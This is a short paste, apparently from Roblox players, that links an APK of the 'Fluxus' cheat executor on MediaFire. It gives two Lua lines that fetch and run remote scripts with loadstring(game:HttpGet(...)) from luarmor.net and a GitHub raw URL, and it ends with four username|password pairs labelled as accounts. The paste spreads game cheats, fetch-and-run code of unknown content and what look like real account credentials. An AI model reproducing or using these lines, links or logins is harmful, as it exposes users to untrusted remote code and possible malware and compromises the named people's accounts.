 *fluxus
https://www.mediafire.com/file/vnthsndj1gd0ep1/FluxusTrucRobloxAndAfxcaxiRoblox.apk/file
*script:
aruze:
getgenv().Team = "Pirates"
loadstring(game:HttpGet("https://api.luarmor.net/files/v3/loaders/3b2169cf53bc6104dabe8e19562e5cc2.lua"))()
doremon:
loadstring(game:HttpGet('https://raw.githubusercontent.com/onepicesenpai/onepicesenpai/main/onichanokaka'))()
*acc: 
Ðuc:
XNmoUe5|Anhduc10
khanh:
Rondsluip5a|anhduc10
quan:
atfe9w|vuonggiap601787
huy dat:
ahhhsggdhs|huydat12345

